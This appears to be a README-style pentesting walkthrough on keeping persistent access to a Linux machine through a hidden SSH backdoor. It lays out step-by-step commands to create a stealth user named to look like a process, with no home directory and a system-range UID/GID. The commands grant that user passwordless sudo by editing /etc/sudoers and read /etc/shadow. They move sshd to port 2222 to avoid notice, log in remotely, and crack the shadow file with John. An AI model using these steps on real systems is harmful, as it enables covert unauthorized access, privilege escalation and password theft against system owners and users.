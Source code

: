 # Creating a Back-Door - Owning the System

There are several Pentesting phases, methodologies, or frameworks such as the Mitre and the Cyber kill Chain frameworks. This project focus on the fourth phase of engagement (Maintaining Access) or their equivalents like "Command and Control" for the cyber kill chain or "Persistence" for the Mitre framework.

To obtain this persistence, a backdoor is created using the SSH service. In short, two things need to be accomplished to succeed in this task: Create a user, and set the SSH server.

> NOTE: This walkthrough assumes that the commands are executed as the root user. Otherwise, will be necessary to be a privileged user and to use the sudo command when required.

---

## Three steps are required to accomplish this task:

- Step 1: **Be a shadow** (Create a stealth user).

- Step 2: **Getting ready for a Smooth Sailing** (Set the SSH backdoor connection).

- Step 3: **All aboard** (The Final Test).

---

## Step 1: Be a shadow (Create a stealth user).


To be a "shadow" in the system means to remain as unnoticed as possible. To achieve it, we will create a user with different features next listed.

1. The right user's name.
2. User with no home directory.
2. System user's UID and GID.
4. Grant full sudo privileges to the "shadow user" without the need of a password.
5. Testing

- ### The right user's name

    Use a name that blends with the system, so remain unotice. A name that looks as a process will be the choice in this walkthrough.

    **Username: sysd**

- ### User with no home directory   

    It is easy to look for listed users in a Linux system by quering the /home directory (see the picture). 
    
     ![1](Images/1.PNG)    
    
    A user not listed in the home path will obtain stealth. To create a new user without a folder in the home directory, use the next command:

    `adduser --no-create-home sysd`

    Give your secret user a password

    Press enter on each of the next setting to leave them blank.

    ![2](Images/2.PNG) 

- ### System user's UID and GID

    UID (User Identified), and GID (Group Identifier) are numbers that identify users and groups. Numbers below 1000 are reserved for system processes. The "shadow user" should look like another process, so the following commands will do that.

    `usermod  -u 777 sysd`

    `groupmod -g 777 sysd`

    ![3](Images/3.PNG)

- ### Grant full sudo privileges to the "shadow user" without the need of a password.

    On a Linux system, the sudoers file is the file where the privilege settings exist. Here, sudo access will be configured for the "shadow" user using the following command:

    `echo 'sysd ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers`

    ![4](Images/4.PNG)

- ### Testing

    To verify that the "shadow" user has full sudo privileges and is ready to use them without a password, use the following commands:

    Check sysd priviledges:

    `sudo  -lU sysd`

    ![5](Images/5.PNG)

    Switch from current user to sysd user:

    `su sysd`

    ![6](Images/6.PNG)

    To test the current user sudo privileges, we need to revoke any previous sudo privileges stored in the cache. The next command accomplishes this.

    `sudo -k`

    ![7](Images/7.PNG)

    Check if ask for password when accessing the shadow file. This sensitive file holds the passwords' hash of all users in the system. Usually, only a sudo privilege user has access to this file. This user would need to enter a password to gain access. If no password is required, our setting pass the test. 

    `sudo cat /etc/shadow`

    ![8](Images/8.PNG)
    > Note in the image that sysd user is listed in the file with its respective password hash
---

## Step 2: Getting ready for a Smooth Sailing (Set the SSH backdoor connection)

We will use SSH (Secure Shell) to establish a remote connection with the target device. To create this backdoor, we need to set the SSH server configuration file. This file is located in the ssh directory. This directory holds several configuration files such as the SSH client, SSH server, and public and private keys used to encrypt sessions. SSH normally uses port 22. We want to maintain a stealth connection, so we are changing that port to 2222.

- Access and modify the file with nano:

    `nano /etc/ssh/sshd_config`

    ![9](Images/9.PNG)

  - Edit the sshd_config file:

    `Port 2222`

    ![10](Images/10.PNG)

- Save and Exit
    ```
    Press "Ctrl x" keys
    Press "y" key
    Press "enter" key
    ```

- Restart the SSH service to activate the new configuration:

    `sudo systemctl restart ssh`

    ![11](Images/11.PNG)

---

## Step 3: All aboard (The Final Test)

Exiting the target machine, then access it again through the previously created backdoor.

- Exit the target machine

    Enter the exit command and hit enter until exit the target machine

    `exit`

    ![12](Images/12.PNG)
  

- Access the target throught the backdoor (change the ip address for the one of your target machine).

    `ssh sysd@192.168.200.105 -p 2222`

     ![13](Images/13.PNG)

- Use sudo to switch to the root user:

    `sudo -s`

    ![14](Images/14.PNG)

---

# Enjoy yourselve (THE END ?)


A backdoor has been created. Now that persistence (Command and Control or Maintaining Access) has been accomplished, it is time to move to the next step of the killer chain (Actions on Objective) or to the last stage of engagement (Covering your tracks).

Example:
Use John to crack the entire /etc/shadow file:

`john /etc//shadow`

![15](Images/15.PNG)